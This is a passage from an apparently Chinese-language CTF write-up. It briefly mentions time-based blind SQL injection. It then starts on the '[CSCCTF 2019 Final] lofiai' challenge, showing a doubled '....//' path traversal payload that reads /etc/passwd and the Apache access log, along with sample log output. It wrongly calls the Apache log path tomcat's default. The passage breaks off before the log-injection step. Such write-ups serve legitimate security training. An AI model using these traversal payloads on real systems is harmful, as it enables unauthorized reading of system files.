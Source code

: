 此外这个界面不会返回报错信息, 也就是报错注入应该是不可以使用的; 应该用时间盲注就行了, 和之前一道 midsql 的题是一样的, 另外这里应该是用 sqlmap 可以直接自动化扫的, 这里就跳过了;

## [CSCCTF 2019 Final] lofiai

### 日志注入

打开网站有一处参数, `lang=en.php` 和 `lang=jp.php`, 从回显来看, 上方会回显 `lang` 的参数内容, 如果能读, 下面会渲染结果;

初步尝试发现这里可以通过双写出发路径穿越漏洞:

```
?lang=....//....//....//....//....//....//etc/passwd
```

接下来尝试访问日志文件:

> `/var/log/apache2/access.log` 是 tomcat 默认的日志路径, 需要记住;

```
?lang=....//....//....//....//....//....//var/log/apache2/access.log
```

![57-2.png](57-2.png)

注意以下内容:

```
../../../../../../var/log/apache2/access.log10.244.244.244 - - [24/Sep/2025:07:06:44 +0000] "GET / HTTP/1.1" 200 1342 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
10.244.244.244 - - [24/Sep/2025:07:06:44 +0000] "GET /favicon.ico HTTP/1.1" 404 474 "http://7477f485-99b7-4e29-8c93-f979f06e20e0.node5.buuoj.cn:81/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
10.244.244.244 - - [24/Sep/2025:07:06:51 +0000] "GET /?lang=en.php HTTP/1.1" 200 1258 "http://7477f485-99b7-4e29-8c93-f979f06e20e0.node5.buuoj.cn:81/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:143.0) Gecko/20100101 Firefox/143.0"
```
